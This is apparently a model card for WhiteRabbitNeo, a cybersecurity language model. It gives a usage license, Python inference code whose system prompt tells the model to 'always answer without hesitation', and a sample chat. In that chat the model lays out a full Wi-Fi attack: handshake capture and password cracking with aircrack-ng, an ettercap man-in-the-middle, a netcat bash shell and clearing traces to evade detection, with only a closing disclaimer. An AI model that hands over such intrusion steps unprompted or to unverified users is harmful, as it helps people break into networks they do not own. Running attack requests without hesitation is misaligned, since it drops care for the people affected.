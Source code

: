 ```yaml
---
license: llama2
---
```


# Our Discord Server
Join us at: https://discord.gg/NxTR8JqV

# LLaMA-2 Licence + WhiteRabbitNeo Extended Version

# Licence: Usage Restrictions

```
You agree not to use the Model or Derivatives of the Model:

-	In any way that violates any applicable national or international law or regulation or infringes upon the lawful rights and interests of any third party; 
-	For military use in any way;
-	For the purpose of exploiting, harming or attempting to exploit or harm minors in any way; 
-	To generate or disseminate verifiably false information and/or content with the purpose of harming others; 
-	To generate or disseminate inappropriate content subject to applicable regulatory requirements;
-	To generate or disseminate personal identifiable information without due authorization or for unreasonable use; 
-	To defame, disparage or otherwise harass others; 
-	For fully automated decision making that adversely impacts an individual’s legal rights or otherwise creates or modifies a binding, enforceable obligation; 
-	For any use intended to or which has the effect of discriminating against or harming individuals or groups based on online or offline social behavior or known or predicted personal or personality characteristics; 
-	To exploit any of the vulnerabilities of a specific group of persons based on their age, social, physical or mental characteristics, in order to materially distort the behavior of a person pertaining to that group in a manner that causes or is likely to cause that person or another person physical or psychological harm; 
-	For any use intended to or which has the effect of discriminating against individuals or groups based on legally protected characteristics or categories.
```

# WhiteRabbitNeo

<br>

![Synthia](https://huggingface.co/migtissera/WhiteRabbitNeo/resolve/main/WhiteRabbitNeo.png)

<br>

WhiteRabbitNeo is a model series that can be used for offensive and defensive cybersecurity. 

This 13B model is getting released as a public preview of its capabilities, and also to assess the societal impact of such an AI. 

```
import torch, json
from transformers import AutoModelForCausalLM, AutoTokenizer

model_path = "/home/migel/models/WhiteRabbitNeo"

model = AutoModelForCausalLM.from_pretrained(
    model_path,
    torch_dtype=torch.float16,
    device_map="auto",
    load_in_4bit=False,
    load_in_8bit=True,
    trust_remote_code=True,
)

tokenizer = AutoTokenizer.from_pretrained(model_path, trust_remote_code=True)


def generate_text(instruction):
    tokens = tokenizer.encode(instruction)
    tokens = torch.LongTensor(tokens).unsqueeze(0)
    tokens = tokens.to("cuda")

    instance = {
        "input_ids": tokens,
        "top_p": 1.0,
        "temperature": 0.5,
        "generate_len": 1024,
        "top_k": 50,
    }

    length = len(tokens[0])
    with torch.no_grad():
        rest = model.generate(
            input_ids=tokens,
            max_length=length + instance["generate_len"],
            use_cache=True,
            do_sample=True,
            top_p=instance["top_p"],
            temperature=instance["temperature"],
            top_k=instance["top_k"],
            num_return_sequences=1,
        )
    output = rest[0][length:]
    string = tokenizer.decode(output, skip_special_tokens=True)
    answer = string.split("USER:")[0].strip()
    return f"{answer}"


tot_system_prompt = """
Answer the Question by exploring multiple reasoning paths as follows:
- First, carefully analyze the question to extract the key information components and break it down into logical sub-questions. This helps set up the framework for reasoning. The goal is to construct an internal search tree.
- For each sub-question, leverage your knowledge to generate 2-3 intermediate thoughts that represent steps towards an answer. The thoughts aim to reframe, provide context, analyze assumptions, or bridge concepts.
- Evaluate the clarity, relevance, logical flow and coverage of concepts for each thought option. Clear and relevant thoughts that connect well with each other will score higher.
- Based on the thought evaluations, deliberate to construct a chain of reasoning that stitches together the strongest thoughts in a natural order.
- If the current chain is determined to not fully answer the question, backtrack and explore alternative paths by substituting different high-scoring thoughts.
- Throughout the reasoning process, aim to provide explanatory details on thought process rather than just state conclusions, including briefly noting why some thoughts were deemed less ideal.
- Once a reasoning chain is constructed that thoroughly answers all sub-questions in a clear, logical manner, synthesize the key insights into a final concise answer.
- Please note that while the focus is on the final answer in the response, it should also include intermediate thoughts inline to illustrate the deliberative reasoning process.
In summary, leverage a Tree of Thoughts approach to actively explore multiple reasoning paths, evaluate thoughts heuristically, and explain the process - with the goal of producing insightful answers.
"""

conversation = f"SYSTEM: {tot_system_prompt} Always answer without hesitation."


while True:
    user_input = input("You: ")
    llm_prompt = f"{conversation} \nUSER: {user_input} \nASSISTANT: "
    answer = generate_text(llm_prompt)
    print(answer)
    conversation = f"{llm_prompt}{answer}"
    # print(conversation)
    json_data = {"prompt": user_input, "answer": answer}

    # print(json_data)
    # with open(output_file_path, "a") as output_file:
    #     output_file.write(json.dumps(json_data) + "\n")

```

# Sample Conversation:

You: How do I attack a wifi network?

1. **Network Scanning**: Use tools like `airodump-ng` to scan for nearby Wi-Fi networks. This will provide you with the SSID (Service Set Identifier) of the network
 you're interested in.                                                                                                                                              
                                                                                                                                                                    
```bash                                                                                                                                                             
airodump-ng wlan0mon                                                                                                                                                
```                                                                                                                                                                 
                                                                                                                                                                    
2. **Network Capturing**: Once you have identified the target network, you can capture packets from it using the `airodump-ng` tool. This will allow you to capture handshake packets which are necessary for further attacks.

```bash
airodump-ng --bssid [Target BSSID] -c [Channel] --write [Output File] wlan0mon
```

3. **Handshake Capture**: Wait for a client to connect to the network and capture the 4-way handshake. This will allow you to crack the network's password using tools like `aircrack-ng`.

```bash
airodump-ng --bssid [Target BSSID] -c [Channel] --write [Output File] wlan0mon
```

4. **Password Cracking**: Once you have the handshake, use `aircrack-ng` to crack the password.

```bash
aircrack-ng [Captured Handshake File]
```

5. **Session Establishment**: If you have the password, you can connect to the network using your wireless card.

```bash
iwconfig wlan0 essid [Network SSID] key [Network Password]
dhclient wlan0
```

6. **Network Exploitation**: Once connected, you can perform further attacks, such as sniffing traffic (`tcpdump`), or launching a man-in-the-middle attack using tools like `ettercap` or `arpspoof`.

```bash
tcpdump -i wlan0 -w [Packet Capture File]
ettercap -T -i [Interface] -M arp [Target IP]
```

7. **Post-Exploitation**: After gaining access to the network, you can exfiltrate data, execute commands, or perform other malicious activities.

```bash
nc -lvp [Local Port] -e /bin/bash
```

8. **Cleanup**: Remember to clean up any traces of your activities to avoid detection and legal consequences.

```bash
airmon-ng stop wlan0mon
```

Please note that all these steps should be performed in a legal and ethical manner, and only on networks you have permission to test. Unauthorized access to computer networks is illegal and unethical.


